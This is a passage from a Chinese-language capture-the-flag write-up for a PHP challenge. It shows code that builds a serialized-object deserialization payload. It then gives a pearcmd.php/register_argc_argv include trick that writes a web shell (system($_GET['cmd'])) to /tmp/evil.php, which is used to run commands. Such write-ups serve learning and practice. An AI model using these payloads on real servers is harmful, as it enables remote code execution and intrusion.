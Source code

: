 ```php
$phpis->fun1 = "strlen"; 
$phpis->fun2 = "strrev";

$best = new thebest();
$best->gogogo = $phpis;

$payload = serialize($best);
echo "payload：\n\n";
echo urlencode($payload) . "\n";
?>

//payload: ?gogogo=O%3A7%3A%22thebest%22%3A1%3A%7Bs%3A6%3A%22gogogo%22%3BO%3A5%3A%22phpis%22%3A3%3A%7Bs%3A4%3A%22what%22%3BO%3A8%3A%22language%22%3A2%3A%7Bs%3A2%3A%22v1%22%3Bs%3A37%3A%22flag%3Dfae0b27c451c728867a567e8c1bb4e53%22%3Bs%3A6%3A%22piece1%22%3BO%3A5%3A%22right%22%3A2%3A%7Bs%3A2%3A%22sy%22%3Ba%3A1%3A%7Bi%3A0%3Bi%3A1%3B%7Ds%3A2%3A%22su%22%3Ba%3A1%3A%7Bi%3A0%3Bi%3A2%3B%7D%7D%7Ds%3A4%3A%22fun1%22%3Bs%3A6%3A%22strlen%22%3Bs%3A4%3A%22fun2%22%3Bs%3A6%3A%22strrev%22%3B%7D%7D    
    
```

![微信图片_20250503204222](微信图片_20250503204222.png)

```flag
Flag_piece_1: W4terCTF{i5_pHp
```

### part2

进到 /1nCLud3.php 目录下

根据源码，需要构造参数file，同时又要绕过正则匹配。试了很多种绕过都不太行，虽然$_SERVER['QUERY_STRING']在匹配的时候不会进行url解码，但是同样include打开文件的时候也不会进行url解码，试图构造用url编码方式绕过正则匹配的方式就行不通。

根据提示：register_argc_argv=On，找到博客[register_argc_argv与include to RCE的巧妙组合 - Longlone's Blog](https://longlone.top/安全/安全研究/register_argc_argv与include to RCE的巧妙组合/)

和这道题的思路非常像，所以仿照博客中的解题思路，利用pearcmd执行rce：

“当我们include一个可以被php解析的文件的时候,php代码会被自动执行,这样在registerargcargv开启的情况下我们就有可能通过包含pearcmd.php与操控$_SERVER['argv']来执行pear命令。”

```payload
?file=pearcmd&+config-create+/<?phpsystem($_GET['cmd']);?>+/tmp/evil.php
```

因为浏览器会将< ? > 转义，所以通过burpsuite抓包后再GET传参

![微信图片_20250504135809](微信图片_20250504135809.png)



这便拿到了cmd的控制权，随后查找剩下的flag

通过include打开evil.php继续利用cmd

```payload
?file=/tmp/evil&cmd=ls /tmp
```
